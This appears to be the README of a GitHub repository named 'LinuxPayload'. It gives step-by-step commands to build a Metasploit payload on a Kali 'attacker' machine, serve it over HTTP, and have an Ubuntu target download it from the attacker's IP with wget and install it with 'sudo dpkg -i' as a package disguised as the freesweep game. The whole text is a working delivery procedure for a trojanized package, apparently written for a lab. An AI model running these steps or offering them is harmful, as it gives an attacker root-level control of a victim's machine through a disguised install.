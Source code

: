 "# LinuxPayload" 

For details use the read metasploit_tutorial.docx

Run the following in kali linux to generate and serve the payload in webserver.
	git clone https://github.com/kaushik-ayinala/LinuxPayload.git
	cd LinuxPayload
	sh payload.sh [IP]  

#In the last command, IP refers to the IP of attacker/kali machine Eg: sh payload.sh 10.0.2.6

Download and install generated payload in ubuntu 

	wget http://[IP]/freesweep.deb
	sudo dpkg -i freesweep.deb

#In the first command, IP refers to the IP of attacker/kali machine Eg: wget http://10.0.2.6/freesweep.deb

